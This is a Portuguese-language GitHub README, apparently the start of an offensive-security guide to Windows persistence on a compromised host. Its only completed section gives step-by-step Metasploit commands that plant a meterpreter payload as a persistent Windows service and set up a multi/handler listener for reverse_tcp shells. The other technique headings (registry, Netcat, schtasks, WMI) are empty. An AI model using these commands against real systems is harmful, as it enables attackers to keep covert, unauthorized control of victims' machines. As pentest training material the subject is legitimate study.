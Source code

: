 # [Awesome Windows Persistence](https://github.com/Stuuxx/awesome-persistence)

**Técnicas e táticas para a manutenção de persistência em um alvo explorado.**

Estarei constantemente atualizando este repositório com novas técnicas!

## Sumário
Técnicas e Táticas
 - Persistence Service
 - Persistence Registry
 - Netcat
 - RDP
 - Schtasks
 - Schtasks-Log Events
 - WMIC
 - Wmi-Persistence
 - SharPersist

##Persistence Service

Já com o alvo explorado e com uma shell meterpreter:
- Colocar a sessão em background;
- Utilizar e configurar o módulo exploit/windows/local/persistence_service do metasploit;
 
Este módulo irá gerar e fazer upload de um executável para o host explorado, em seguida irá torná-lo um serviço persistente. Ele criará um novo serviço que iniciará a carga útil sempre que o serviço estiver em execução.
**É necessário privilégio de administrador ou de sistema!**

```bash
background
use exploit/windows/local/persistence_service
set SESSION 1
exploit
```
![persistence-service](https://user-images.githubusercontent.com/67444297/198635234-f2d8beb0-a0e3-416f-a1b4-ad49d98448ed.jpg)

- Abrir uma nova aba no terminal;
- Utilizar o multi/handler, configurar-lo e colocar para ouvir;

```bash
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
ip a s
set LHOST SEUIP
exploit
```

![persistence-service2](https://user-images.githubusercontent.com/67444297/198635249-b51498b3-7cc6-4cc5-9849-4b143b71e1de.jpg)

**Note que logo que você colocar para ouvir o multi/handler, já receberá uma nova shell, isso se da ao fato de que essa técnica é voltada a um serviço persistente, ou seja, está executando o payload diversas vezes enquanto está vivo.**

Para prova de conceito, iremos dar um reboot na máquina explorada e aguardar a shell em nosso multi/handler.

![persistence-service3](https://user-images.githubusercontent.com/67444297/198635260-54025d20-366e-4e76-a31e-1731e7da1702.jpg)


##Persistence Registry


##Netcat


##RDP


##Schtasks


##Schtasks - Log Events


## Ficou com alguma dúvida?

Siga-me nas redes sociais para acompanhar meus conteúdos relacionados a Cyber Security e Offensive Hacking ou para tirar dúvidas relacionadas aos artigos!
 - LinkedIn : [Eduardo Maragno](https://www.facebook.com/HackwithGithub)
 - Bugcrowd : [@Stux](https://bugcrowd.com/StuxRs)
 - Medium : [@Stux]()
 - Twitter : [@StuxRs](https://twitter.com/StuxRs)
